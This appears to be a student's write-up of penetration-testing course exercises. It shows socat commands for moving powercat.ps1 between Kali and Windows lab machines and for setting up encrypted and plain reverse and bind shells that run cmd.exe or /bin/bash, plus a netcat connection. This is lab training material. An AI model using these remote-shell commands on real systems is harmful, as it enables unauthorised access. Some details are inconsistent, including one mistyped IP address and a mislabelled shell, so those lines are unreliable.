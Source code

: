 

# 4.2.4.1.1
Use socat to transfer powercat.ps1 from your Kali machine to your Windows system. Keep the file on your system for use in the next section.  
  
  
Linux - Send file:
```bash
sudo socat TCP4-LISTEN:443,fork file:/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1
```

Windows - Recieve file:  
```powershell
socat TCP4:192.168.119.166:443 file:powercat.ps1,create
```



# 4.2.4.1.2
Use socat to create an encrypted reverse shell from your Windows system to your Kali machine.  
  
Linux - Create self-signed SSL cert & Send to Windows:  
```bash
mkdir ~/Documents/Exercises/4.2.4.1 && cd ~/Documents/Exersices/4.2.4.1  
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt  
cat bind_shell.key bind_shell.crt > bind_shell.pem  
sudo socat TCP4-LISTEN:443,fork file:bind_shell.pem
```

Windows - Recieve .pem:  
```powershell
socat TCP4:198.162.119.166:443 file:bind_shell.pem,create
```


**Reverse shell:**  
  
Windows - Create encrypted reverse shell:  
```powershell
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 EXEC:'cmd.exe',pipes
```

Linux - Connect to reverse shell:  
```bash
socat - OPENSSL:192.168.166.10:443,verify=0
```


**Bind shell:**  
  
Linux - Establish encrypted bind listener:  
```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

Windows - Establish encrypted bind shell:  
```powershell
socat - OPENSSL:192.168.119.166:443,verify=0
```

  
  
# 4.2.4.1.3 
Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work? **- No**  
  
Windows - Establish encrypted listener:  
```powershell
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 EXEC:'cmd.exe',pipes
```

Linux - Attempt non-secure connection:  
```bash
socat - TCP4:192.168.166.10:443
```

  
  
  
  
4. Make an unencrypted socat bind shell on your Windows system. Connect to the shell using Netcat. Does it work? **- Yes**  
  
Windows - Create socat listener on 443:  

socat -d -d TCP4-LISTEN:443 EXEC:'cmd.exe',pipes

  
  
  
Linux - Attempt nc connection:  

nc 192.168.166.10 443